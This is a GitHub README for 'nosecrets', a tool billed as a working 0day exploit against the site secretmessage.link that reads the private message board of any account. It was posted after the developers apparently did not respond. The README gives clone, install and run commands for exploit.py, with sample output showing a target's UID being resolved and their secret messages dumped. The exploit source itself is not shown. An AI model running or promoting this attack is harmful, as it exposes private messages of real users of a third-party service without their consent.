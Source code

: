 # nosecrets 0day Exploit  - Working as of 8/28/22
https://www.secretmessage.link/ 0day exploit | read message board of any accounts<br>Devs didn't reply, So I uploaded it here.<br>Message me for takedown

![secretm](https://raw.githubusercontent.com/jmrcsnchz/nosecrets/main/secretm.png)

## Installation
```bash
git clone https://github.com/jmrcsnchz/nosecrets.git
```
```bash
pip3 install requests
```
```bash
pip3 install bs4
```

## Usage
```bash
cd nosecrets
```
```bash
python3 exploit.py
```

```
Target Link: > https://www.secretmessage.link/secret/xXXxXXXXXxxxX/
Secret Message 2021 | xxxxxxxxx - Secret Message 2021
[+] Target UID: 845504
Getting Messages.....
[+] Discovered 3 Secret Messages

(1) xxxxxxxxxxx
(2) xxxxxxxxxxxxxxxxxx
(3) xxxxxxxxxxxxxxxxxxxxxxxx
```
